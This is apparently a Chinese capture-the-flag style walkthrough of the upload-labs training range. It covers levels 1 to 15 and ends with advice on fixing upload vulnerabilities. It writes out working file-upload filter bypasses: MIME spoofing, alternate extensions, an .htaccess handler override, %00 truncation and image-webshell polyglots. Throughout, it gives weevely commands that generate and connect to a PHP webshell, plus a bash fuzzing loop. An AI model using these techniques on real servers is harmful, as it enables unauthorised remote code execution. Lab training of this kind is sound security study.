

# 201-A14-文件上传漏洞（下）

## 1.Upload通关

前提准备：

1 靶场下载地址：https://github.com/c0ny1/upload-labs

2 搭建和启动靶机

3 生成测试的PHP后门

```
root@TQ:~/桌面# weevely generate 123456 ./farmsec.php
```


3 启动burp并挂好代理


## 1.1Less1测试：

将webshell直接进行上传测试后，发现状态如下：
1 返回报错信息


2 burp无法抓取任何数据包
3 如果上传jpg格式则无任何问题
据此判断，防护的措施在用户的浏览器端，非服务器端，为此需要绕过前端的判定。


## 1.2攻击方法：

1 将webshell命名为jpg后缀
root@TQ:~/桌面# cp farmsec.php farmsec.jpg
抓取到上传数据包后，将filename改为farmsec.php,随后放过数据包。


找到木马地址后，连接即可。


```
 weevely http://upload.farmsec.com/upload/farmsec.php 123456 dir
```


## 1.2.1 Less2测试：

上传正常图片，抓包如下：上传正常


上传PHPshell抓包如下：提示：文件类型不正确，请重新上传！ 


攻击方式：
选择上传PHP后门，修改数据包
Content-Type: image/jpeg 即可成功。


```
root@TQ:~/桌面# weevely http://upload.farmsec.com/upload/farmsec.php 123456 dir

```


## 1.2.2 Less3测试：

上传后门以后，提示错误为：


现为黑名单的方式进行安全防护。
如果上传farmsec.jpg，则文件被重命名为
http://upload.farmsec.com/upload/201909141931563869.jpg
如果上传farmsec.jpg.aaa.则文件被重命名为
http://upload.farmsec.com/upload/201909141931038625.aaa

攻击方式：
将后门命名为farmsec.php5,随后上传

连接后门地址即可：

```
root@TQ:~/桌面# weevely http://172.16.3.181/upload/201909141301308526.php5 123456 whoami
```


备注：测试环境的httpd.config文件经过特殊配置，增加新内容：


默认不存在此行内容。

## 1.2.3 Less4测试：

上传后门后，提示如下：

上传jpg后缀，提示如下：


而图片的地址如下：http://172.16.3.181/upload/farmsec.jpg

攻击方式：
1 制作.htaccess文件

```
root@TQ:~/桌面# echo "AddType application/x-httpd-php .jpg" >>farmsec.htaccess
```

随后上传此文件，上传包中删除文件名，只保留后缀


2 制作图片马

```
root@TQ:~/桌面# cp farmsec.php farmsec.jpg
```


3 上传此文件，无需做任何更改

4 拷贝木马url，并连接木马进行测试

```
root@TQ:~/桌面# weevely http://172.16.3.181/upload/farmsec.jpg 123456 whoami
```


## 1.2.4 Less5测试：


这行一定要取消掉，否则贼尴尬，出不来后缀名

保存payload后，使用shell脚本进行fuzz

```
#!/bin/bash
cat all.txt|while read url
 do
         echo $url
	 weevely $url 123456 whoami
 done
```


测出500报错，可能为环境问题，上传的文件后缀为Php，为此此关卡应该为大小写绕过。

## 1.2.5 Less6-9

同Less5

## 1.2.5 Less10测试：

直接上传webshellces


得到的连接为：
http://172.16.3.181/upload/farmsec.
可以看出，传入的farmsec.php 被服务器去除后缀无法执行

传入正常图片


攻击方式：
1.在上传shell的时候使用burp抓包，把文件名做嵌套处理，然后放过数据包


2.查看图片路径为：http://192.168.2.128/upload/farmsec.php 

3.拷贝木马url，并连接木马进行测试

```
root@Shackle:~# weevely http://192.168.2.128/upload/farmsec.php 123456 dir
```


## 1.2.6 Less11测试：

1.上传webshell得到如下提示

2.尝试上传正常图片


3.经过尝试发现使用白名单判断，但$img_path是直接拼接，因此可以利用%00截断绕过。

攻击方式：
1.修改shell文件后缀为.jpg

```
cp farmsec.php farmsec.jpg
```


2.上传farmsec.jpg文件，在上传时抓取该数据包，并修改数据包如下图，然后放过该数据包。

3.成功解析webshell


4.拷贝木马url，并连接木马进行测试

```
root@Shackle:~# weevely http://192.168.2.128/upload/farmsec.php 123456 dir
```


## 1.2.7 Less12测试：

经测试，发现同less11类似save_path参数通过POST方式传递，还是利用00截断，不过因为POST不会像GET对%00进行自动解码，所以需要在二进制中进行修改。
攻击方式：
1.修改shell文件后缀为.jpg

2.上传farmsec.jpg文件，在上传时抓取该数据包，并修改数据包。

同时需要在二进制中进行修改，然后放过数据包

3.成功解析webshell


4.连接后门

```
weevely http://192.168.2.128/upload/farmsec.php 123456 dir
```


## 1.2.8 Less13测试：

上传webshell

上传图片

结合源码及提示，发现该关卡会读取读2字节文件内容来判断是否为图片，所以需要制作图片马来绕过。

攻击方式：
1.制作图片马

```
cat farmsec.php >> farmsec.png 
```


2.将图片马传入服务器中

http://192.168.2.128/upload/7020190915160744.png

3.借助该页面提供的文件包含页面，包含该图片马
http://192.168.2.128/include.php?file=upload/7020190915160744.png

4.尝试连接该图片马


## 1.2.9 Less14测试：

同getimagesize函数判断文件类型，还是可以图片马绕过，13方式即可绕过
攻击方式：
1.制作图片马
cat farmsec.php >> farmsec.png 
2.将图片马传入服务器中

http://192.168.2.128/upload/3120190915163916.png
3.借助该页面提供的文件包含页面，包含该图片马


4.尝试连接木马

```
 weevely http://192.168.2.128/include.php?file=upload/3120190915163916.png 123456 dir
```


## 1.2.10 Less15测试：

这里用到php_exif模块来判断文件类型，用图片马绕过，方法同pass-13
攻击方式：
1.制作图片马

```
cat farmsec.php >> farmsec.png 
```

2.将图片马传入服务器中

http://192.168.2.128/upload/8420190915164701.png
3.借助该页面提供的文件包含页面，包含该图片马


4.尝试连接木马

```
 weevely http://192.168.2.128/include.php?file=upload/8420190915164701.png 123456 dir
```


## 2.漏洞修复建议

1、对上传文件类型进行验证，除在前端验证外在后端依然要做验证，后端可以进行扩展名检测，重命名文件，MIME类型检测以及限制上传文件的大小等限制来防御，或是将上传的文件其他文件存储服务器中。

2、严格限制和校验上传的文件，禁止上传恶意代码的文件。同时限制相关上传文件目录的执行权限，防止木马执行。

3、对上传文件格式进行严格校验，防止上传恶意脚本文件。

4、严格限制上传的文件路径。

5、文件扩展名服务端白名单校验。

6、文件内容服务端校验。

7、上传文件重命名。

8、隐藏上传文件路径。

9、将上传文件存储至云端或者文件服务器
